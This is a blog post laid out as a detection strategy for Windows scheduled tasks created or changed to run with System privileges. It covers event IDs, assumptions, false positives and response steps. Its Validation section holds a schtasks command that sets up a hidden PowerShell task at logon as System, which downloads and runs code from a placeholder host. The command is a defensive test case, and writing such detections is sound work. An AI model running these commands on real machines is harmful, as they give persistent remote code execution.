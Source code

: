 ```yaml
---
layout: post
title:  "Suspicious System Scheduled Task/Job ADS"
date:   2022-05-31 12:44:14 -0400
categories: review
---
```


## Suspicious System Scheduled Task/Job
***
### Goal
Detect when Scheduled Tasks are created or modified to run at System Level Privileges. This may be indicative of an attempt for an attacker or malware to establish persistesence on a Windows machine. 

***

### Categorization
These attemps are categorized as [Execution / Scheduled Task/Job ](https://attack.mitre.org/techniques/T1053/)

***

### Strategy Abstract
The strategy will function as follows:
- Monitor window event codes on Windows Systems.
- Define the command line arguments that need to be detected on.
- Supress any known & non-malicious tasks (depending on client size, this approach can differ)
- Alert on any tasks that are created or modified at System Level Privileges.

*** 

### Technical Context

A Scheduled task is a command, program, or script to be executed at a particular time in the future on Windows machines. This can vary based on the conditions provided to execute when a user logs on or a regular interval. System Admin use these to create and run operational tasks much like cronjobs on Linux machines. 

With that being said, these can be morphed to be used in a malicious manner. Advesaries use these already existing functionality on Windows systems to establish persistence whether that would be on start up or a Command and Control Server.

When configuring the scheduled tasks, the following event IDs are of interest for this ADS:

|Event Code | Description|
-------------| ------------|
	4698 |  A scheduled task was created
	4699 | A scheduled task was deleted
	4700 | A scheduled task was enabled
	4701 | A scheduled task was disabled
	4702 | A scheduled task was updateds

For this ADS, the event IDs that will be focused on will be 4698, 4700, and 4702. Sysmon also provides some event codes such as Event Code 1 that schtask.exe executes. 

For this detection we will look for scheduled tasks created with System level privileges

***
### Blind Spots and Assumtions
This strategy relies on the following assumptions:
- The Machine is proper logging the proper Windows Event Log and sending to WEF Servers.
- WEF servers are correctly forwarding events to the SIEM.
- SIEM is successfully indexing group change events.

A blind spot will occur if any of the assumptions are violated. For instance, the following would not trip the alert:
- Windows event logging breaks.
- The SIEM UC job is running at all time.

***

### False Positives
With this being a built in functionality, the usage on this can vary depending on the size of the enviroment. There are serveral instances where false positives for this ADS could occur:
- Legitimate tasks created by System Administrators. 
- Drivers and OS support creation of scheduled tasks such as power savers on laptops. 

*** 

### Priority
The priority is set to medium under all conditions.

***

### Validation
```
schtasks /create /tn test /tr "c:\windows\syswow64\WindowsPowerShell\v1.0\powershell.exe -WindowStyle hidden -NoLogo -NonInteractive -ep bypass -nop -c 'IEX ((new-object net.webclient).downloadstring(''http://x.x.x.x:8080/x'''))'" /sc onlogon /ru System
schtasks /create /tn "mysc" /tr C:\windows\system32\cmd.exe /sc ONLOGON /ru "System"
```

***

### Response
In the event that this alert fires, the following response procedures are recommended:
- Triage of the host system and if the activity is normal.
	- Note the account that created it, suspicious arguments, or abnormal timeframe.
- Identify what the schedule task is performing
	- ex: Execution of binary, in memory powershell execution, connection to web server
- Use endpoint EDR or tool to invesitage or isolate the host.

***

### Additional Resources
[https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/T1053.005/T1053.005.md](https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/T1053.005/T1053.005.md)